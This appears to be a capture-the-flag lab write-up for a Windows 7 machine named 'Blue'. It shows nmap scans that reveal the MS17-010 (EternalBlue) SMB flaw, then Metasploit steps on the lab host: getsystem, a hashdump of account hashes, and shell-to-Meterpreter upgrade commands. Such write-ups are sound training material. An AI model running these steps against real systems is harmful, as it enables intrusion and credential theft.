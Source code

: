 ```yaml
---
title: "blue"

date: "2023-05-17"

author: "MatDef"

  

---
```


# Information Gathering

  

### Nmap
```shell
$ nmap -A <ip>          
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-24 12:51 EDT
Nmap scan report for 10.10.244.88
Host is up (0.053s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2023-05-23T15:36:34
|_Not valid after:  2023-11-22T15:36:34
|_ssl-date: 2023-05-24T16:53:29+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: JON-PC
|   NetBIOS_Domain_Name: JON-PC
|   NetBIOS_Computer_Name: JON-PC
|   DNS_Domain_Name: Jon-PC
|   DNS_Computer_Name: Jon-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2023-05-24T16:53:23+00:00
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 59m59s, deviation: 2h14m09s, median: 0s
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02b54060a537 (unknown)
| smb2-time: 
|   date: 2023-05-24T16:53:23
|_  start_date: 2023-05-24T15:36:32
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-05-24T11:53:23-05:00
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)



```
-> Windows 7 probably Eternal Blue (its in the name ;))


## Enumeration
```shell
$ nmap --script smb-vuln* <ip>        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-24 12:56 EDT
Nmap scan report for 10.10.244.88
Host is up (0.060s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false

```
-> smb-vuln-ms17-010



# Exploitation
Using `msfconsole`
```shell
meterpreter > getsystem
[-] Already running as SYSTEM
```
Already meterpreter shell else upgrade shell with
`sessions -u -1`
Or

```shell
meterpreter > hashdump
```
-> 3 User: Administrator, Guest, Jon


To upgrade the most recently opened session to Meterpreter using the sessions command:

sessions -u -1

Or run the shell_to_meterpreter module manually:

use multi/manage/shell_to_meterpreter
run session=-1
run session=-1 win_transfer=POWERSHELL
run session=-1 win_transfer=VBS


# Privilege Escaltion


  
  

---

  

# References
![](./images/20230524122622.png)